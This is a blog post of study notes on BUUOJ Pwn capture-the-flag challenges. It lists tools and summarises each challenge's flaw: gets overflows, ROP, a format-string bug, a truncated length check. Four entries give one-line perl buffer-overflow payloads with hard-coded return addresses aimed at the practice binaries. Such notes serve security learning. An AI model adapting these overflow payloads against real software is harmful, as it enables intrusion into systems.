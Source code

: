 ```yaml
---
layout: post
title:  "信息安全学习笔记 - BUUOJ Pwn"
date:   2020-08-26 22:15:38 +0800
---
```



# BUUOJ PWN

## Requirements
1. python
   1. ropgadget, capstone, 
   2. pwntools
   3. LibcSearcher
2. nasm

## Prologue
1. file xxx
   1. arch, stripped?
2. checksec

## Problems

1. test_your_nc 
   1. ida system("/bin/sh");
   2. `perl -e 'print "ls\ncat flag\n"' | test_your_nc`
2. rip
   1. `system("/bin/sh")` found
   2. segfault??? _TODO_
3. warmup_csaw_2016
   1. amd64, C `gets` and `system("cat flag.txt")` found
   2. overwrite return address
   3. `perl -e 'print "A"x72 . "\x0d\x06\x40\x00\x00\x00\x00\x00\n"' | ./warmup_csaw_2016`
4. pwn1_sctf_2016
   1. x86, C `gets` and `'system("cat flag.txt")'` found
   2. overwrite return address
   3. `std::string`: the source replaces any appearance of `I` with `you` in string input
   4. `perl -e 'print "I"x20 . "\xef\xbe\xad\xde\x0d\x8f\x04\x08\n"' | ./pwn1`
5. ciscn_2019_n_1
   1. amd64, C `gets`
   2. overwrite a variable and bypass
   3. floating point number comparison
      1. more info about `xmm0` [SSE registers](https://en.wikibooks.org/wiki/X86_Assembly/SSE#Registers):
         1. [saturation arithmetic](https://en.wikipedia.org/wiki/Saturation_arithmetic) and [clamping](https://en.wikipedia.org/wiki/Clamping_(graphics))
         2. SIMD instructions
   4. `perl -e 'print "A"x(0x30-4) . "\x00\x80\x34\x41\n"' | ./ciscn_2019_n_1`
6. [**post**]({{ site.url }}/2020/07/14/buuoj-pwn-ciscn_2019_c_1.html) ciscn_2019_c_1
7. [**script**]({{ site.url }}/assets/OGeek2019_babyrop.py) [OGeek2019]babyrop
   1. ROP
   2. C `read`
   3. `strncmp(a, b, 0)` always returns 0
8. ciscn_2019_en_2: the same as [ciscn_2019_c_1]({{ site.url }}/2020/07/14/buuoj-pwn-ciscn_2019_c_1.html)
9. [**script**]({{ site.url }}/assets/get_started_3dsctf_2016.py) get_started_3dsctf_2016:
   1. ROP
   2. c `gets`
   3. `get_flag` and **peaceful exit**
10. [**script**]({{ site.url }}/assets/5space_pwn5.py) [第五空间2019 决赛]PWN5:
    1.  [**format string exploit**](https://wooyun.js.org/drops/%E6%A0%BC%E5%BC%8F%E5%8C%96%E5%AD%97%E7%AC%A6%E4%B8%B2%E6%BC%8F%E6%B4%9E%E7%AE%80%E4%BB%8B.html)
11. [**script**]({{ site.url }}/assets/jarvisoj_level0.py) jarvisoj_level0:
    1.  ROP
    2.  C `read`
    3.  `system` and `"/bin/sh"` found
12. [**script**]({{ site.url }}/assets/r2t3.py) [BJDCTF 2nd]r2t3:
    1.  ROP
    2.  `system` and `"/bin/sh"` found
    3.  truncated string length: `uint8_t length = (uint8_t) strlen(input)`
13. [**script**]({{ site.url }}/assets/ciscn_2019_n_8.py) ciscn_2019_n_8
14. [**script**]({{ site.url }}/assets/not_the_same_3dsctf_2016.py) not_the_same_3dsctf_2016
    1.  ROP , or
    2.  [mprotect(.bss)](https://zhuanlan.zhihu.com/p/141065867), read and shellcode _TODO_
15. [**script**]({{ site.url }}/assets/HarekazeCTF2019_baby_rop.py) [HarekazeCTF2019]baby_rop
16. [**script**]({{ site.url }}/assets/BJDCTF_2nd_one_gadget.py) [BJDCTF 2nd]one_gadget
    1.  The [one_gadget](https://github.com/david942j/one_gadget) tool
17. [**script**]({{ site.url }}/assets/bjdctf_2020_babystack.py) bjdctf_2020_babystack
    1.  `elf.sym["backdoor"]`
18. [**script**]({{ site.url }}/assets/ciscn_2019_n_5.py) ciscn_2019_n_5
    1.  libc: `http://ftp.osuosl.org/pub/ubuntu/pool/main/g/glibc/libc6_2.27-3ubuntu1_amd64.deb`